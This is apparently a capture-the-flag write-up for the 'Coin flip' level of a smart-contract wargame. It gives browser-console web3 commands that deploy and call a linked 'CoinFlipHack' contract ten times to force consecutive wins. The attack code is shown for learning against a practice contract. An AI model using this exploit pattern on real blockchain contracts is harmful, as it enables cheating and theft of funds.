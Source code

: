 # Coin flip

Type in the browser console:

```
> web3.utils.toNumber(await contract.consecutiveWins())
0
```

Deploy a contract with Remix using attached Solidity files ([interfaces/ICoinFlip.sol](./src/interfaces/ICoinFlip.sol) and [contracts/CoinFlipHack.sol](./src/contracts/CoinFlipHack.sol)).

Copy the ABI and deployed contract address from Remix and run the following code in the browser console:

```
var abi = [
  {
    "inputs": [],
    "name": "doFlip",
    "outputs": [],
    "stateMutability": "nonpayable",
    "type": "function"
  },
  {
    "inputs": [
      {
        "internalType": "address",
        "name": "_coinFlipAddress",
        "type": "address"
      }
    ],
    "stateMutability": "nonpayable",
    "type": "constructor"
  }
];
var hackAddress = "*redacted*";
var hack = new web3.eth.Contract(abi, hackAddress);

for (var i = 0; i < 10; i++) {
  await hack.methods.doFlip().send({ from: player });
}
```

Type in the browser console:

```
> web3.utils.toNumber(await contract.consecutiveWins())
10
```

Level finished.
